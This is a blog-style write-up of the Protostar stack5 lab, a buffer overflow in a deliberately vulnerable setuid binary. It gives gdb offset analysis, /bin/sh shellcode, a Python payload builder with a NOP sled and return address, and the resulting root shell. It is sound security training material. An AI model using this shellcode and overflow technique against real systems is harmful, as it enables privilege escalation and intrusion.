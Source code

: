 ```yaml
---
layout: post
title:  "Protostar stack5 challenge"
date:   2018-04-14 23:37:36 +0530
categories: security protostar
---
```



Buffer overflow attack [Stack5][stack-5] but here we are not given a win free function to direct control to
So we will have to use shell code which should be called upon execution of the program.
{% highlight cpp %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv) {
  char buffer[64];
  gets(buffer);
}
{% endhighlight %}

As usual `gets` is the vulnerable function here.
As seen from stack4 exercise first we need to find where RET return address is located in main.
{% highlight nasm %}
$ gdb /opt/protostar/bin/stack5
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   ebp
0x080483c5 <main+1>:    mov    ebp,esp
0x080483c7 <main+3>:    and    esp,0xfffffff0
0x080483ca <main+6>:    sub    esp,0x50
0x080483cd <main+9>:    lea    eax,[esp+0x10]
0x080483d1 <main+13>:   mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.
{% endhighlight %}

`$ebp` is base pointer. `$esp` is stack pointer which points to top of stack
When a new function is called, the calling function `$ebp` is pushed onto the stack 
{% highlight nasm %}0x080483c4 <main+0>:    push   ebp{% endhighlight %}
Then new $ebp points to current `$esp`
{% highlight nasm %}0x080483c5 <main+1>:    mov    ebp,esp{% endhighlight %}
Then space for local variables is created.
Also `$eip`(not seen here) points to current instruction pointer, ie the current
instruction being executed.
Now the RET address(where control should return after exiting main commonly
some C library) is stored just after where `$ebp` is stored.

We add few break points and 
{% highlight nasm %}
(gdb) b *0x080483c4
Breakpoint 1 at 0x80483c4: file stack5/stack5.c, line 7.
(gdb) b *0x080483d4
Breakpoint 2 at 0x80483d4: file stack5/stack5.c, line 10.
(gdb) b *0x080483d9
Breakpoint 3 at 0x80483d9: file stack5/stack5.c, line 11.
{% endhighlight %}
Then run
{% highlight nasm %}
(gdb) r
Starting program: /opt/protostar/bin/stack5

Breakpoint 1, main (argc=1, argv=0xbffffd74) at stack5/stack5.c:7
7       stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) info r
eax            0xbffffd74       -1073742476
ecx            0x698c084a       1770784842
edx            0x1      1
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffccc       0xbffffccc
ebp            0xbffffd48       0xbffffd48
esi            0x0      0
edi            0x0      0
eip            0x80483c4        0x80483c4 <main>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}


Here we see $ebp has 0xbffffd78. This is $ebp value of caller
 which will be now pushed to stack. (0x080483c4 <main+0>:    push   ebp)
{% highlight nasm %}
(gdb) c
Continuing.

Breakpoint 2, 0x080483d4 in main (argc=1, argv=0xbffffd74) at stack5/stack5.c:10
10      in stack5/stack5.c
(gdb) infor
Undefined command: "infor".  Try "help".
(gdb) info r
eax            0xbffffc80       -1073742720
ecx            0x698c084a       1770784842
edx            0x1      1
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffc70       0xbffffc70
ebp            0xbffffcc8       0xbffffcc8
esi            0x0      0
edi            0x0      0
eip            0x80483d4        0x80483d4 <main+16>
eflags         0x200282 [ SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}
Here we see $ebp is 0xbffffcc8. This was due to `(mov    ebp,esp)`
and is basically where callers $ebp is stored.
This is break just before calling gets(buffer).
In intel the address of buffer is saved to top of stack $esp just before calling func.
So $esp points to buffer location ie $esp contain the location of buffer
{% highlight nasm %}
(gdb) x/x $esp
0xbffffc70:     0xbffffc80
{% endhighlight %}
That means buffer is located as 0xbffffc80.

Since gets would start input from this address, we attempt to over this buffer just
so that we RET is overwritten with our shellcode location. And when control returns from
main our shellcode is executed.
Start of RET is $ebp+4
So we need to overwrite dummy chars upto RET ie start-RET - start-buffer
ie 0xbffffcc8 + 4 - 0xbffffc80 = 76(base 10)


Ok continue
In a separate terminal and rerun with this as input

{% highlight nasm %}
$  perl -e 'print "A"x76 . "\xEF\xBE\xAD\xDE"' > temp.txt
(gdb) r < /home/user/temp.txt
Starting program: /opt/protostar/bin/stack5 < /home/user/temp.txt

Program received signal SIGSEGV, Segmentation fault.
0xdeadbeef in ?? ()
(gdb) info r
eax            0xbffffc80       -1073742720
ecx            0xbffffc80       -1073742720
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffcd0       0xbffffcd0
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0xdeadbeef       0xdeadbeef
eflags         0x210246 [ PF ZF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}
We see $eip which is the return pointer is overwritten as 0xdeadbeef and we get SIGSEGV.
So we have 76 chars before RET where we can store our shell code or we can also store it after RET.
We will try to store it before RET.

First we begin by creating shell-code which would spawn a shell.
I used this link to get shell-code. [shellcode5.html][shellcode5] 

{% highlight nasm %}
;shellex.asm
[SECTION wtext write]

global _start


;shellex.asm
section wtext write

global _start


_start:
    xor eax, eax
    mov al, 70                    ; setreuid is syscall 70
    xor ebx, ebx
    xor ecx, ecx
    int 0x80

    jmp short    mycall           ; Immediately jump to the call instruction

    shellcode:
        pop        ecx                ; Store the address of "/bin/sh" in ESI
        xor        eax, eax           ; Zero out EAX
        mov byte   [ecx + 7], al      ; Write the null byte at the end of the string

        mov dword  [ecx + 8],  esi    ; [ecx+8], i.e. the memory immediately below the string
                                      ;   "/bin/sh", will contain the array pointed to by the
                                      ;   second argument of execve(2); therefore we store in
                                      ;   [ecx+8] the address of the string...
        mov dword  [ecx + 12], eax    ; ...and in [ecx+12] the NULL pointer (EAX is 0)
        mov        al,  0xb           ; Store the number of the syscall (11) in EAX
        lea        ebx, [ecx]         ; Copy the address of the string in EBX
        lea        edx, [ecx + 12]    ; Third argument to execve(2) (NULL pointer)
        lea        ecx, [ecx + 8]     ; Second argument to execve(2)
        int        0x80               ; Execute the system call

    mycall:
        call       shellcode          ; Push the address of "/bin/sh" onto the stack
        db         "/bin/sh"
{% endhighlight %}

Most of the shellcode is same as given in link but i had to add [SECTION wtext write]
atop the code. Something to do with make stack section writable as mentioned here.
[Discussion in stackoverflow][so-discussion]

nasm -felf get_shell.asm
ld -melf_i386 -o get_shell get_shell.o
./get_shell
So we get a shell now.
We need to get shell code as hex. Using objdump and regex dump from my SE course
{% highlight shell %}
madhurrawat@madhurrawrat-VirtualBox:~/Desktop/shellcode$ objdump -D ./get_shell.o |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x18\x59\x31\xc0\x88\x41\x07\x89\x71\x08\x89\x41\x0c\xb0\x0b\x8d\x19\x8d\x51\x0c\x8d\x49\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"
{% endhighlight %}

So we prepare a python script to prepare payload.
{% highlight python %}
#!/usr/bin/env python
offset = 72
shellcode = "\x31\xc0\xb0\x46\x31\xdb\x31\xc9\xcd\x80\xeb\x18\x59\x31 \
\xc0\x88\x41\x07\x89\x71\x08\x89\x41\x0c\xb0\x0b\x8d\x19\x8d\x51\x0c\x8d \
\x49\x08\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

nopsled = "\x90" * (offset - len(shellcode))
ret = "\xb0\xfc\xff\xbf"


payload = nopsled + shellcode + "JJJJ" + ret

print payload
{% endhighlight %}

So basically we are overwriting $ebp with "JJJJ" ie frame pointer.
nopsled + shellcode should total 72.

BUT wait why is ret here as 0xbffff790. Shouldn't it be start of our
buffer ie 0xbffffc80. Well i tried with RET as 0xbffffc80 but got SEG
Maybe because of this reason mentioned in [link][core-need]

`| In gdb stack addresses aren't the same as in a live run !!!    |`

So better we analyze core file:

So we login as root in protostar
{% highlight shell %}
root@protostar:/# echo 2 > /proc/sys/fs/suid_dumpable
root@protostar:/# cat /proc/sys/kernel/core_pattern
/tmp/core.%s.%e.%p
root@protostar:/# ulimit -c unlimited
root@protostar:/# cd /opt/protostar/bin
root@protostar:/opt/protostar/bin#  perl -e 'print "A"x76 . "\xEF\xBE\xAD\xDE"' | ./stack5
Segmentation fault (core dumped)
root@protostar:/opt/protostar/bin# ls /tmp
core.11.stack5.1817
root@protostar:/opt/protostar/bin# gdb -q -c /tmp/core.11.stack5.1817
{% endhighlight %}
{% highlight nasm %}
Core was generated by `./stack5'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()

(gdb) info r
eax            0xbffffcb0       -1073742672
ecx            0xbffffcb0       -1073742672
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffd00       0xbffffd00
ebp            0x41414141       0x41414141
esi            0x0      0
edi            0x0      0
eip            0xdeadbeef       0xdeadbeef
eflags         0x10246  [ PF ZF IF RF ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
{% endhighlight %}

Ok. so we overwrote RET properly coz $eip is 0xdeadbeef
Further we examine are where we wrote A 76 times
{% highlight nasm %}
(gdb) x/30x $esp-96
0xbffffca0:     0xbffffcb0      0xb7ec6165      0xbffffcb8      0xb7eada75
0xbffffcb0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcc0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcd0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffce0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffcf0:     0x41414141      0x41414141      0x41414141      0xdeadbeef
0xbffffd00:     0x00000000      0xbffffda4      0xbffffdac      0xb7fe1848
0xbffffd10:     0xbffffd60      0xffffffff
{% endhighlight %}
So we see in coredumps buffer is starting from 0xbffffcb0.
Since we will be starting from 0xbffffcb0 our RET should now point to it, ie
beginning of our shell code.

{% highlight shell %}
$ python pwn5.py > payload5
$  (cat payload5; cat) | /opt/protostar/bin/stack5

id
uid=0(root) gid=1001(user) groups=0(root),1001(user)
whoami
root
{% endhighlight %}
So we successfully spawned a shell as root.
We could spawn a shell as root coz this is a setuid program.

[stack-5]: https://exploit-exercises.com/protostar/stack5/
[shellcode5]: http://www.kernel-panic.it/security/shellcode/shellcode5.html
[so-discussion]: https://chat.stackoverflow.com/rooms/91636/discussion-between-jester-and-czifro
[core-need]: https://github.com/flankerhqd/protostar-solutions/blob/master/Stack%205/stack5.txt